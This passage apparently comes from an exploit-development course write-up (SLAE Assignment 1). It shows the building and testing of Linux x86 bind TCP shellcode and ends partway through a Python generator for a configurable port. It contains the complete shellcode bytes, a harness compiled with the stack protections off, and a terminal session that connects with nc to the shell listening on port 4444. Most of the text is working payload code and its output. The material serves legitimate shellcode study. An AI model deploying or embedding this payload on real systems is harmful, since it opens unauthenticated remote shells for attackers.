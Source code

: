 It works...
```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/Assignment1$ ./compile.sh bind-tcp
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/Assignment1$ objdump -d ./bind-tcp|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc0\x31\xc9\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x02\xcd\x80\x31\xc0\x50\x56\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/Assignment1$ vim shellcode.c 
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/Assignment1$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcodehiro@HackingLab:~/SLAE/SLAE/EXAMEN/Assignment1$ ./shellcode 
Shellcode Length:  109

```

```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/Assignment1$ sudo netstat -lnpt | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      1334/shellcode  
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/Assignment1$ nc -vv 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
id
uid=1000(hiro) gid=1000(hiro) groups=1000(hiro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner)

```


#### Generate a bind TCP shellcode with configurable port

```python
#!/usr/bin/env python

import sys
import struct
import os


def port2hex(port):
	return struct.pack(">H", port)


if __name__ == "__main__":
	if sys.argv[1] is not None:
		try:
			if (int(sys.argv[1])<1024):
				print "[?] Only root can open ports below 1024"
			
			port = port2hex(int(sys.argv[1]))
			port_check = [port.encode('hex')[i:i+2] for i in range(0, len(port.encode('hex')), 2)]
			nullbytes = False
			for i in port_check:
				if (i == "00"):
					print "[-] The port contains null bytes, use another port"
					nullbytes = True
			shellcode = "\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc0\x31\xc9\x50\x66\x68%s\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x02\xcd\x80\x31\xc0\x50\x56\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"%port
			sc = ""
```